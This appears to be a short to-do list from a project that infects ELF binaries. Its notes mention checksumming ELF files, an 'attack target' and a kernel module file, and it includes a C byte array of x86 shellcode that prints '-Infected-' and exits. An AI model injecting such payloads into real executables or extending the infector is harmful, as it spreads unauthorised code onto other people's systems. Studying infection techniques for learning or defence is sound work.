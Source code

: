 - mem_alloc
- verify effect of Q_new


- checksum file creating: fin.


- checksum only elf
- attack target
- refine mod.c
- fix 
  ```c
      unsigned char payload[] = {
          0x8d, 0x4c, 0x24, 0x04, 0x83, 0xe4, 0xf0, 0xff, 0x71, 0xfc, 0x55, 0x89, 0xe5, 0x53, 0x51, 0x83, 0xec, 0x10, 0xe8, 0x60, 0x00, 0x00, 0x00, 0x81, 0xc3, 0xe9, 0x2f, 0x00, 0x00, 0xc7, 0x45, 0xec, 0x2d, 0x49, 0x6e, 0x66, 0xc7, 0x45, 0xf0, 0x65, 0x63, 0x74, 0x65, 0xc7, 0x45, 0xf4, 0x64, 0x2d, 0x0a, 0x00, 0xc7, 0x83, 0x0c, 0x00, 0x00, 0x00, 0x6e, 0x10, 0x00, 0x00, 0xc7, 0x83, 0x10, 0x00, 0x00, 0x00, 0xe4, 0x17, 0x00, 0x00, 0x8b, 0x83, 0x0c, 0x00, 0x00, 0x00, 0x83, 0xec, 0x0c, 0x8d, 0x55, 0xec, 0x52, 0xff, 0xd0, 0x83, 0xc4, 0x10, 0x8b, 0x83, 0x10, 0x00, 0x00, 0x00, 0x83, 0xec, 0x0c, 0x6a, 0x00, 0xff, 0xd0, 0x83, 0xc4, 0x10, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x8d, 0x65, 0xf8, 0x59, 0x5b, 0x5d, 0x8d, 0x61, 0xfc, 0xc3, 0x8b, 0x1c, 0x24, 0xc3, 0x66, 0x90, 0x66, 0x90, 0x90, 0x50, 0x51, 0xe8, 0x79, 0xff, 0xff, 0xff, 0xf4
      };
  ```

- kill/do_kill: return 1/0 (?) to tell success or not